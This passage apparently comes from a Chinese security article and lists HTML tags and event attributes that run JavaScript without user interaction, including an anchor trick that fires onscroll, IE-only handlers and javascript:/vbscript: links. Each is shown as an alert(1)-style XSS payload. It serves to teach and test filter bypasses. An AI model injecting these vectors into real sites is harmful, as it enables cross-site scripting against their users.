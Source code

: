 [tag-event.php](http://static.wooyun.org/20141017/2014101716205735611.zip)

从输出结果可以看到body标签支持非常多的属性可以在与用户没有交互的情况下执行js。

例如load，error事件，所有的mouse和keyboard事件，以及在用户离开时的blur事件，还有unload和beforeunload，以及大家很少知道的pageshow属性。

同样标签中也有很少遇到的marquee标签：

```
<marquee onscroll=alert(1)>

```

在Chrome中，html标签也可以执行非常多的属性，，同源frameset标签也接受focus和blur事件。

一个很有趣的例子是，让scroll事件可以无交互触发，我们可以引入一个锚点，例如：

`<a name="bottom">`或者通过id属性`<div id="bottom">`

那我们可以访问http://test.com/test.html#bottom来访问，浏览器自动滚到该锚点，触发scroll属性。

```
<body onscroll="alert(1)">
<div style="height:10000px">some text</div>
<a name="bottom"></a>
</body>

```

1.html为以上代码，访问1.html#bottom会自动触发onscroll事件。

IE中hr标签中的onresize属性，在当前窗口大小变化时，会触发resize事件，执行alert(1)。

```
<hr onresize=alert(1)>

```

还有非常多的组合可以在IE中使用，很难全部列出来，只列举出几个很少见的例子：

```
<bgsound onpropertychange=alert(1)>
<body onpropertychange=alert(2)>
<body onmove=alert(3)>
<body onfocusin=alert(4)>
<body onbeforeactivate=alert(5)>
<body onactivate=alert(6)>
<embed onmove=alert(7)>
<object onerror=alert(8)>
<style onreadystatechange=alert(9) >
<xml onreadystatechange=alert(10) >
<xml onpropertychange=alert(11) >
<table><td background=javascript:alert(12) > 

```

除了以上on的各种属性之外，src和href属性由于支持javascript和vbscript（只支持IE）伪协议，所以也是可以执行javascript代码：

```
<a href="javascript:alert(1)">click me</a>
<a href="vbscript:alert(2)">click me</a>

```
